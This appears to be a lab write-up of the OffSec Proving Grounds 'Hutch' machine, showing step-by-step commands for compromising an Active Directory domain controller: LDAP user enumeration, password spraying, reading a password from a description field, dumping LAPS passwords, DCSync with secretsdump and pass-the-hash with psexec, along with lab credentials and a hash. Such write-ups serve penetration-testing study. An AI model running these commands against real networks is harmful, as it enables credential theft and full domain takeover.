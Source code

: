 # **HUTCH | PG Practice**

## **C.Rating : Hard**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/2bcfc26e-1d72-46c3-af92-19cdfb9e5ce7)

***

Running our nmap scan we have:


```bash
# Nmap 7.94SVN scan initiated Thu Jun 13 09:55:09 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.214.122
Nmap scan report for 192.168.214.122
Host is up (0.15s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/10.0
|   WebDAV type: Unknown
|   Server Date: Thu, 13 Jun 2024 08:58:07 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-13 08:57:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-13T08:58:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 13 09:58:51 2024 -- 1 IP address (1 host up) scanned in 222.82 seconds
```


Checking port 80 we have a default IIS page

![](https://i.imgur.com/qzWtkMc.png)






Decided to run `enum4linux-ng` also for more enumeration


```bash
enum4linux-ng 192.168.214.122 -L -S -oJ hutch.json

# -L: Get additional info via LDAP/LDAPS
# -S: Get shares via RPC
# -oJ: Writes output to JSON file
```



![](https://i.imgur.com/9vVXGWK.png)


Domain : hutch.offsec
DC : HUTCHDC


Enumerating users via `ldapsearch` we have few users


```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


![](https://i.imgur.com/4y5clqt.png)



```
Guest
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```



We can also confirm that this users are valid using the `kerbrute` tool


```bash
kerbrute userenum --dc 192.168.214.122 -d hutch.offsec users.txt
```


![](https://i.imgur.com/5ac4Q3H.png)


Performing an ASREPRoasting attack, unfortunately no user has pre-authentication enabled


```bash
GetNPUsers.py hutch.offsec/ -usersfile users.txt -format hashcat -dc-ip 192.168.214.122
```


![](https://i.imgur.com/19LxHwc.png)


Tried to password spray

```bash
crackmapexec smb 192.168.214.122 -u users.txt -p users.txt
```


![](https://i.imgur.com/EVW8zBJ.png)



![](https://i.imgur.com/7YGbvds.png)



However password spraying with an empty password we have this `STATUS_ACCOUNT_DISABLED` message on the guest account



![](https://i.imgur.com/9epKINu.png)


Still couldn't do anything cos we need the administrator password to enable any account, However it took me hours to figure out that some users leave passwords in description, so the below command using `ldapsearch` helped 



```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=*))"  | grep description:
```


![](https://i.imgur.com/clUpkSP.png)



We found a password called `CrabSharkJellyfish192`, soooo i decided to password spray and we got a hit at user `fmcsorley`



```bash
netexec smb 192.168.214.122 -u users.txt -p "CrabSharkJellyfish192"
```



![](https://i.imgur.com/BHe29vS.png)


As my own **rule of thumb**, after valid creds i roll up `bloodhound-python` first to get more information on the domain


```bash
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns 192.168.214.122 -d hutch.offsec -c all
```



![](https://i.imgur.com/m6X2Wqr.png)



Also just so we don't miss anything let us check if this user has access to any shares


```bash
smbmap -H 192.168.214.122 -u fmcsorley -p CrabSharkJellyfish192
```



![](https://i.imgur.com/d4Dj05m.png)




However enumerating the shares i couldn't find anything valid so i  ran back to bloodhound, loaded my data and found out the user `fmcsorley` can read the **Local Administrator Password Solution** (LAPS) which **provides management of local account passwords of domain joined computers**.


![](https://i.imgur.com/Gg6lUsf.png)


To abuse this we can use the [pyLAPS](https://github.com/p0dalirius/pyLAPS) tool to retrieve credentials



```bash
./pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192" --dc-ip 192.168.214.122
```



![](https://i.imgur.com/jDxoPEq.png)


Now let see if this password works for the administrator user, hehe


```bash
netexec smb 192.168.198.122 -u administrator -p "{2[i2Nae6IjQDF" -d hutch.offsec
```


![](https://i.imgur.com/k3ALru1.png)


> I am so sorry the password above is different same as the IP, the lab got stopped and all things where rotated



We have a hit on the administrator and it looks like we are domain admin, we can still take a step further and perform the DCSync attack to replicate the DC and dump all users hash


```bash
secretsdump.py 'hutch.offsec'/'administrator'@192.168.198.122                
# Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies      
                                                                                                                                                                                             
# Password:
```



![](https://i.imgur.com/7Itac4o.png)


Then pass-the-hash for the admin user and get all flags


```bash
psexec.py administrator@192.168.198.122 -hashes aad3b435b51404eeaad3b435b51404ee:0ae9bb132b0b7c3722b7ba682d966e7a
```



![](https://i.imgur.com/9GGwfBp.png)


## What did I learn ?


- First of, I need to start building a methodology for attacking AD, Point is, i missed the **"password in description"**, took me hours to figure it out and finally got it from a friend, this same thing also happened in **Dante**, THE LITTLE THINGS MATTER
- Secondly this lab was quite easy and straight forward BTW, cos' it is AD, hehe, soooo start learning **active directory penetration testing**!



Have fun 🤤


![](https://i.pinimg.com/originals/ca/26/2e/ca262e0354eea311c41134c3e4bc3bc2.gif)

